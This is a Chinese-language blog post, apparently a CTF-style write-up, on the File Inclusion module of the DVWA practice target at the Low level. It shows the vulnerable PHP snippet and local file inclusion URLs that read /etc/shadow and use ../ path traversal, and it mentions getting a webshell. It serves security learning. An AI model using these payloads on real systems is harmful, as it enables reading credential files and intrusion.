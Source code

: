 ```yaml
---
layout:     post
title:      DVWA靶机学习——File Inclusion(文件包含)
subtitle:   这个系列是学习DVWA靶机的。今天学习File Inclusion的Low、Medium、High、Impossible级别。
date:       2020-07-14
author:     K4ys0n
header-img: img/post-bg-coffee.jpeg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 File Inclusion(文件包含)

File Inclusion，即文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

文件包含漏洞通常配合文件上传来获取webshell。



## 0x01 Low

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
代码就是读取链接中的一个参数page，作为文件包含进来。

http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=file1.php

获取page中的参数，作为php文件执行。

#### 解题思路
- 本地文件包含
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=/etc/shadow
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=C:\test.txt
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=..\..\php.ini
